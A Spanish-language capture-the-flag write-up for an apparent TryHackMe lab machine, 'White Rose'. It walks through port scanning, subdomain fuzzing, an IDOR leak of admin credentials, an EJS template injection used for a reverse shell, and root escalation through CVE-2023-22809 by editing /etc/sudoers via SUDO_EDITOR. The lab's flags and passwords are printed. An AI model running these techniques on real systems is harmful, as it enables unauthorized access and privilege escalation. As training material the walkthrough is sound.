







# White Rose Writeup

## Escaneo

Empezamos con la fase de escaneo utilizando la herramienta `nmap`:

```bash
nmap -p- --open -Pn -n -sV --min-rate 5000 -sS <HOST> -oN white -vvv
```

Podemos ver que los puertos abiertos son `22/ssh` y `80/http`:

```plaintext
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Al revisar el puerto 80, vemos que tiene un dominio. Registramos el dominio en `/etc/hosts` y encontramos una página de mantenimiento:



---

## Enumeración de Subdominios

Buscaremos subdominios utilizando `ffuf`:

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://cyprusbank.thm -H "HOST:FUZZ.cyprusbank.thm" -fw 1
```

Encontramos los siguientes subdominios:

```plaintext
www
admin
```

Agregamos los dominios al archivo `/etc/hosts`. Al visitar el subdominio `admin`, encontramos una página de inicio de sesión:



---

## Acceso Inicial

Iniciamos sesión con las credenciales proporcionadas:

- Usuario: `Olivia Cortez`
- Contraseña: `olivi8`

Dentro de la página, revisamos las conversaciones de usuarios:



Observamos una vulnerabilidad de **IDOR**, lo que nos permite ver conversaciones anteriores. Aquí encontramos las credenciales de administrador:

```plaintext
Usuario: Gayle Bev
Contraseña: p~]P@5!6;rs558:q
```

Al iniciar sesión con estas credenciales, podemos acceder a información adicional y obtener la primera respuesta:



---

## Conexión a la Máquina

Interceptamos la solicitud de cambio de contraseña con Burp Suite:



El error reportado menciona `ejs`, lo que indica una posible vulnerabilidad **SSTI**. Creamos una reverse shell codificada en Base64 y la enviamos con Burp Suite:



Logramos conectarnos a la máquina:



Para una shell interactiva, ejecutamos:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo; fg
```

---

## Primera Flag

Usamos el comando `find` para localizar la flag `user.txt`:

```bash
find / -name user.txt 2>/dev/null
```

La flag se encuentra en `/home/web`:

```plaintext
THM{4lways_upd4te_uR_d3p3nd3nc!3s}
```

---

## Escalada de Privilegios

Al usar `sudo -l`, vemos que podemos usar `sudoedit`:

```plaintext
User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

Investigamos la versión de `sudoedit` (`1.9.12p11`) y encontramos la vulnerabilidad **CVE-2023-22809**. Configuramos el editor `SUDO_EDITOR` para modificar el archivo `sudoers`:

```bash
export SUDO_EDITOR='nano -- /etc/sudoers'
sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

Agregamos el siguiente texto al archivo `sudoers`:

```plaintext
web ALL:(ALL:ALL) NOPASSWD: ALL
```

Luego, usamos `sudo su` para convertirnos en root y obtenemos la flag `root.txt`:

```plaintext
THM{4nd_uR_p4ck4g3s}
```

---

## Conclusión

Con esto, completamos la máquina **White Rose**. ¡Buen trabajo!

